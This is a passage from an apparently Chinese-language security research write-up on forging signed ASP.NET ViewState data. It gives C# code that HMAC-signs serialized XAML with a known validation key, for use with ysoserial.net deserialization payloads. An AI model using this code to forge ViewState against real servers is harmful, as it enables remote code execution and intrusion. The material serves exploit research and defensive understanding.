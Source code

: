 从输出中获得Base64编码的序列化xaml数据


(2)计算序列化xaml数据的签名，生成最终的ViewState数据

代码如下:

```
static string CreateViewState(byte[] dat,string generator,string key)
{
    MemoryStream ms = new MemoryStream();
    byte[] validationKey= strToHexByte(key);

    uint _clientstateid = 0;
    if(!uint.TryParse(generator, NumberStyles.HexNumber, CultureInfo.InvariantCulture, out _clientstateid))
    {
        System.Environment.Exit(0);
    }
 
    byte[] _mackey = new byte[4];
    _mackey[0] = (byte)_clientstateid;
    _mackey[1] = (byte)(_clientstateid >> 8);
    _mackey[2] = (byte)(_clientstateid >> 16);
    _mackey[3] = (byte)(_clientstateid >> 24);

    ms = new MemoryStream();
    ms.Write(dat,0,dat.Length);
    ms.Write(_mackey,0,_mackey.Length);
    byte[] hash=(new HMACSHA1(validationKey)).ComputeHash(ms.ToArray());
    ms=new MemoryStream();
    ms.Write(dat,0,dat.Length);
    ms.Write(hash,0,hash.Length);
    return Convert.ToBase64String(ms.ToArray());
}
```

完整的实现代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/SerializeXamlToViewState.cs

代码实现了从序列化xaml数据计算签名，生成最终的ViewState数据

优点：

占用空间更小，可以直接使用ysoserial.net已有的Payload

缺点：

调试和修改比较麻烦

**注：**

以上两种实现方法的CreateViewState()函数在细节上存在区别，需要注意

## 0x04 另外一种利用脚本开发的细节
---
